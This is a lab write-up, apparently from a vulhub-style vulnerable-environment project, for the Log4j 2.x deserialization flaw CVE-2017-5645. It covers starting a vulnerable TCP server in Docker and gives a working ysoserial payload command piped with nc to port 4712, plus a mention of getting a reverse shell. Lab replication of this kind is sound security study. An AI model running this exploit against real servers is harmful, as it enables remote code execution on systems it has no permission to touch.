


# Apache Log4j Server Deserialization Command Execution Vulnerability (CVE-2017-5645)

Apache Log4j is a logging library for Java with support for launching remote logging servers.A security vulnerability exists in version 2.x of Apache Log4j prior to 2.8.2. An attacker can exploit this vulnerability to execute arbitrary code.

## Vulnerable environment

Execute the following command to start the vulnerable environment

```bash
docker-compose up -d
```

Once the environment starts, a TCPServer will be opened on port 4712.

As a side note, in addition to building the environment using the docker image from vulhub, we can start this TCPServer directly from the command line after downloading the log4j jar file: `java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander- 1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer` without using vulhub and writing code.

## Vulnerability Replication

We use ysoserial to generate the payload and just send it directly to port `your-ip:4712`.

```bash
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

Then run `docker-compose exec log4j bash` into the container and see that /tmp/success has been successfully created:



Executing [command to bounce shell](http://www.jackson-t.ca/runtime-exec-payloads.html) successfully bounced the shell:



For a detailed guide on the **Apache Log4j Server Deserialization Command Execution Vulnerability (CVE-2017-5645)**, including a comprehensive explanation of the vulnerability and potential attack, please refer to the project's documentation at [GitHub Pages](https://sne-m23-sn.github.io/Vulnerable-Nodes-Lab/#CVE-2017-5645).
